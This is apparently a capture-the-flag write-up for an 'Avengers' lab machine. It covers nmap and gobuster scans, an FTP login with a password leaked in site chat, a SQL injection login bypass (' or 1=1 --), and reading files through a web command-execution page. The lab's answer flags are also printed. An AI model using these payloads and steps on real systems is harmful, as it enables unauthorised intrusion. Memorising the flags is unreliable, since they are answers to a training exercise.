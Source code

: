 nmap scan
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~]
└─$ sudo nmap -sS -Pn -sV 10.10.114.120
[sudo] password for gomez22: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 14:56 PDT
Nmap scan report for 10.10.114.120
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Node.js Express framework
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.20 seconds
                                                              
```


Task 2 - cookies
1) On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
* `cookie_secrets`

I found 2 cookies: `flag1` and `connect.sid`

Task 3 - HTTP Headers

1) Look at the HTTP response headers and obtain flag 2.
* `headers_are_important`

Task 4 - Enumeration and FTP

Anonymous ftp is not allowed, so I need some creds. After reading the chat thread on the site, I have found
`Groot asks if someone can reset his password. He said the last one he can remember is iamgroot?`.

So let's try `groot:iamgroot` in ftp and ssh.

ftp -> SUCCESS!
```
└─$ ftp
ftp> open 10.10.114.120
Connected to 10.10.114.120.
220 (vsFTPd 3.0.3)
Name (10.10.114.120:gomez22): groot
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45969|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||40732|)
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls -a
229 Entering Extended Passive Mode (|||40086|)
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
-rw-r--r--    1 0        0              33 Oct 04  2019 flag3.txt

```
I found flag3.txt so I downloaded it to my machine.
```
ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
229 Entering Extended Passive Mode (|||48281|)
150 Opening BINARY mode data connection for flag3.txt (33 bytes).
100% |********************************|    33        5.29 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.19 KiB/s)

```

1) Look around the FTP share and read flag 3!
*`8fc651a739befc58d450dc48e1f1fd2e`


Task 5 - GoBuster
```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,html,js,txt -u 10.10.114.120
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.114.120
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,js,txt
[+] Timeout:                 10s
===============================================================
2022/07/14 15:11:41 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Home                 (Status: 302) [Size: 23] [--> /]        
/home                 (Status: 302) [Size: 23] [--> /]        
/img                  (Status: 301) [Size: 173] [--> /img/]   
/js                   (Status: 301) [Size: 171] [--> /js/]    
/logout               (Status: 302) [Size: 29] [--> /portal]  
/portal               (Status: 200) [Size: 1409] 
```
1) What is the directory that has an Avengers login?
* `/portal`

Task 6 - SQL Injection
1) Log into the Avengers site. View the page source, how many lines of code are there?
I used `' or 1=1 --` in both the password and username fields and was able to login.
* `223`

Task 7 - Remote Code Execution and Linux

I am now on a page where I can enter shell commands. I will navigate the system to find flag5.txt.
```
###############
ls

create.sql
node_modules
package-lock.json
package.json
server.js
views
##############
cd /home; ls

groot
ubuntu
##############
cd /home/ubuntu; ls

avengers
flag5.txt
```

After trying a few ways to read `flag5.txt` I finally found the correct one: `nl /home/ubuntu/flag5.txt`
1) Read the contents of flag5.txt
* `d335e2d13f36558ba1e67969a1718af7`
